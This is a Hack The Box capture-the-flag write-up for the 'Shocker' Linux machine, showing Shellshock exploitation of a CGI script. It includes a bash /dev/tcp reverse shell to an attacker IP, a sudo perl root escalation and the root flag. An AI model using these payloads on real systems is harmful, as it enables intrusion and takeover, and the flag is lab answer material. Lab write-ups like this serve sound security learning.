# Hack The Box - Shocker | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Linux Machine &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.55.99` &nbsp;•&nbsp; **Time taken:** 45 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we are exploiting today is called Shocker and it is an easy difficulty Linux machine on Hack The Box. The box name is Shocker, so therefore there is a good chance it will have to do with a Shellshock vulnerability.

---

## Assessment Overview

```mermaid
flowchart LR
  A["Nmap Recon<br/>80 HTTP / 2222 SSH"]:::entry

  A --> B["HTTP :80<br/>Don't Bug Me"]:::intel
  A -.-> S["SSH :2222<br/>(no creds yet)"]:::ioc

  B --> C["ffuf enum"]:::intel
  C --> C1["found /cgi-bin"]:::intel
  C --> C2["found user.sh<br/>(.sh fuzzing)"]:::intel

  C1 --> E["Shellshock<br/>User-Agent () { :;};"]:::payload
  C2 --> E

  E --> F["CGI header quirk<br/>blank line / Content-Type"]:::mitre
  E --> G["RCE<br/>full-path /bin/ls"]:::payload

  G --> H["bash /dev/tcp<br/>reverse shell"]:::payload
  H --> I["shelly shell"]:::user
  I --> U["user.txt"]:::user

  I --> J["sudo -l<br/>perl NOPASSWD"]:::mitre
  J --> K["perl exec bash"]:::payload
  K --> R["root shell"]:::user
  R --> RT["root.txt"]:::user

  classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
  classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
  classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
  classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
  classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
  classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
  linkStyle default stroke-width:2px
```

---

## What I Learned

- How Shellshock is triggered through a CGI script by placing `() { :;};` at the start of a header value such as `User-Agent`, which the server passes straight to bash and executes.
- Why my first payload returned a 500: Apache reads the script's first line of output as an HTTP response header, so a bare word like `VULNERABLE` is rejected, and I have to lead with a blank line or a valid `Content-Type:` header to close the header block cleanly.
- That commands like `ls` fail unless I give the full path (`/bin/ls`), because the shell Shellshock spawns has no `PATH` set so it cannot locate the binary.
- Using bash's built-in `/dev/tcp` redirection for the reverse shell, which is more reliable than netcat because it does not depend on whether `nc` was compiled with the `-e` flag.
- Abusing a `sudo -l` misconfiguration where shelly could run `/usr/bin/perl` as root with NOPASSWD, since any interpreter can be told to `exec` a shell that inherits root.

---

## Enumeration with Nmap

We can start by performing an Nmap scan with default scripts and service version enumeration.

```
nmap -sV -sC 10.129.55.99
```



*Figure 1 - Nmap shows HTTP on port 80 (Apache 2.4.18) and SSH on the unusual port 2222.*

We can see that an SSH port is open at 2222 which is quite unusual and a HTTP port is open, so we can first visit the website that's open.



*Figure 2 - The homepage just shows a "Don't Bug Me!" image, and the source code has nothing interesting.*

We visited the website but it turns out in the source code of the website there wasn't anything that interesting, so we decided to start our next phase of enumerating the web host using ffuf.

---

## Discovering cgi-bin

When enumerating we found there is a directory called cgi-bin which I have not come across, so we decided to Google what this was and see if there is anything related to Shellshock and cgi-bin.



*Figure 3 - ffuf finds the cgi-bin directory, and a quick search confirms what it is.*

It turns out cgi-bin is a designated folder on a web server that is used to store executable files such as Python, Perl and Bash. Since Shellshock is a Bash exploitation, we can try and enumerate to see if we can find any Bash scripts in cgi-bin.

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.129.55.99/cgi-bin/FUZZ.sh
```



*Figure 4 - Fuzzing for .sh scripts finds user.sh, which returns an uptime test script.*

It seems we found a user.sh and we got the following page when we access it. We can now try and attempt Shellshock on this webpage using Burp. We tried but it didn't seem to work, we got an Internal Server Error, and then we tried again with a different payload and it seemed to work.

---

## Exploiting Shellshock



*Figure 5 - The first payload returns a 500 because `VULNERABLE` is not a valid response header.*

This didn't work as Apache was trying to read something as the header but it read VULNERABLE which isn't a valid header. But when we put it blank, Apache treats it as the value has been written so it prints out our next command. Alternatively, to satisfy it instead of blank we can give it the following and it will still work.



*Figure 6 - Supplying a Content-Type header and a blank line closes the headers cleanly, so the command output is returned with a 200.*

---

## Gaining RCE

Now to see if we can get RCE we tried `ls`, but it didn't work. This is because we need the full path, as user.sh does not know where `ls` lives so we need to specify it.

```
/bin/ls
```



*Figure 7 - Using the full path `/bin/ls` runs successfully and confirms remote code execution.*

---

## Reverse Shell and User Flag

Now we can get our request on Netcat and get a reverse shell. So we can start our listener on port 4444 and send the payload into the vulnerable area.

```
nc -lnvp 4444
```

```
/bin/bash -i >& /dev/tcp/10.10.15.110/4444 0>&1
```

We can find our shells by using PentestMonkey.



*Figure 8 - The bash /dev/tcp payload connects back and gives a shell as the shelly user.*

And we were able to get our user.txt.



*Figure 9 - user.txt is found in shelly's home directory and the user flag is owned.*

> Submit the user flag.

**Answer:** `see Figure 9`

---

## Privilege Escalation to Root

Now we can check what permissions we have using `sudo -l` and we see that we can run Perl as admin privileges.

```
sudo -l
```



*Figure 10 - shelly can run /usr/bin/perl as root with NOPASSWD.*

So we can just run the following, so that sudo starts Perl as root, Perl immediately execs bash, and you're dropped into a root bash shell.

```
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```



*Figure 11 - Perl spawns a root shell (uid=0) and we read the root flag.*

> Submit the root flag.

**Answer:** `1a3ae98943aeb21afe1e5e155cf52805`
